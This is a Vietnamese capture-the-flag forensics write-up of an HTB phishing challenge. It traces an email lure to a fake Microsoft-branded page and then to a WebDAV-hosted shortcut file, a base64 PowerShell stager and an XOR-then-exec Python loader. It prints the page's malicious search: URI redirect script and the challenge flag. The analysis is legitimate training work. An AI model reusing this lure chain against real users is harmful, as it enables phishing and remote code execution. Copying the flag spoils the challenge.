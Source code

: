 # _A new hire_ _(FORSENSICS)_
 
 ![image](https://github.com/user-attachments/assets/e9725ec1-0825-45f3-b533-a3cb000b9160)
 
 Tiếp tục là file email.eml, mở ra xem 
 
 ![image](https://github.com/user-attachments/assets/291d60c8-f0a1-41fa-860e-fcc4ffbf43ca)
 
 Hmm khá giống với thử thách trước, add IP và domain vô /etc/hosts/
 
 Truy cập http://storage.microsoftcloudservices.com:[PORT]//index.php
 
 ![image](https://github.com/user-attachments/assets/05a439ab-318b-4540-b8f9-47677819ce09)
 
 Xem source, chú ý đến đoạn sau
 
 ```html
   <div class="blur-overlay">
     <button class="view-button" onclick="getResume()">View Full Resume</button>
   </div>
   <script defer="defer">
     setTimeout(() => {
       document.getElementById('loading').style.display = 'none';
       document.getElementById('main-content').style.display = 'flex';
     }, 5000);
 
     function getResume() {
       window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
     }
   </script>
 ```
 
 Trang web bị blur, mình thử bỏ nó đi thì nhận được nội dung giống như 1 CV, kh có gì đáng chú ý
 
 ![image](https://github.com/user-attachments/assets/7d5f0228-6d81-4d0b-82ee-fb8e990d5665)
 
 Nhìn xuống tiếp hàm getResume(), thấy được sử dụng JavaScript để điều khiển hiển thị nội dung và chuyển hướng người dùng đến một tệp \\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\, nhưng mình nhấn View Full Resume khi trang web đang bị blur thì kh thấy gì
 
 Từ đây mình nghĩ có thể lấy đường link _http://storage.microsoftcloudservices.com:[PORT]//index.php_  thay index.php thành \\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\ và truy cập trực tiếp luôn
 
 ![image](https://github.com/user-attachments/assets/7c4e4922-6dc1-4d35-8971-8e2b92d44b08)
 
 Tải file Resume.pdf.link về 
 
 ![image](https://github.com/user-attachments/assets/d37b2856-beab-4091-9bc9-cad6a70802aa)
 
 Decode base64
 
 ![image](https://github.com/user-attachments/assets/f5b5a99a-28aa-44ff-b378-518aa73ef0ff)
 
 Có 1 đoạn pws được dùng để mở và truy cập các đường link, truy cập vô client.py
 
 ![image](https://github.com/user-attachments/assets/1944f076-b948-47c5-afb7-fc71aef2bb7e)
 
 Thấy có 1 key và 1 data khá dài, bên dưới dùng lệnh xor key với data và chạy lệnh exec để thực thi, mình thử thay thành print để in luôn kết quả nhưng vẫn bị mã hóa, loay hoay mãi thì thử base64 decode key thì có được flag :v Lừa vl
 
 ```
 HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
 ```



